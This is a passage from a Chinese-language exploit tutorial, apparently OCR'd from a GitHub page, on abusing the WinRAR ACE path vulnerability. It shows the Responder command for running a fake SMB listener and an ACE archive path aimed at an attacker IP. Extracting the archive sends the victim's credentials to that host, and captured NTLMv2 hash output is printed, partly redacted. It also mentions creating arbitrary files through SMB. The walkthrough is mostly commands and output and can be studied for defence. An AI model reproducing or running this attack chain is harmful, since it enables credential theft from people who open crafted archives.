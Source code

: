   我们可以直接使用Responder 脚本，通过 python Responder.py -I eth0 -rPv  进行伪造的SMB默认监听

  然后在ACE压缩文件中  构造 

  ```
  C:\\10.10.10.10\smb_folder_name\some_folder\some_file.ext
  在漏洞解析后
  \10.10.10.10\smb_folder_name\some_folder\some_file.ext
  实质造成 \伪造服务地址\ 的登录访问，从而造成。
  Net-NTLM hash 的泄露
  ```

  启动Responder

  ```
  python Responder.py -I eth0 -rPv
                                           __
    .----.-----.-----.-----.-----.-----.--|  |.-----.----.
    |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
    |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                     |__|
  
             NBT-NS, LLMNR & MDNS Responder 2.3.3.9
  
    Author: Laurent Gaffie (laurent.gaffie@gmail.com)
    To kill this script hit CTRL-C
  
  
  [+] Poisoners:
      LLMNR                      [ON]
      NBT-NS                     [ON]
      DNS/MDNS                   [ON]
  ...
  ```

  解压ACE压缩包。触发

  触发 /xxx.xx.xx.216/的地址访问。（在此处也可构造，smb服务任意文件创建）

  获取到hash

  ```
  [HTTP] Sending NTLM authentication request to xxx.xx.xx.28
  [HTTP] GET request from: xxx.xx.xx.28     URL: /
  [HTTP] Host             : xxx.xx.xx.216
  [HTTP] NTLMv2 Client   : xxx.xx.xx.28
  [HTTP] NTLMv2 Username : \admin
  [HTTP] NTLMv2 Hash     : admin:::fd0cxxxxxx05ba4:E0C4B8BA07C1BB55D0975E186D4EDEB4:01010000000000008B01EC2274CED401B2C1CB919F7872C0000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx0A001000000000000000000000000000000000000900240048005400540050002F003100370032002E00330031002E00350030002E003200310036000000000000000000
  ```




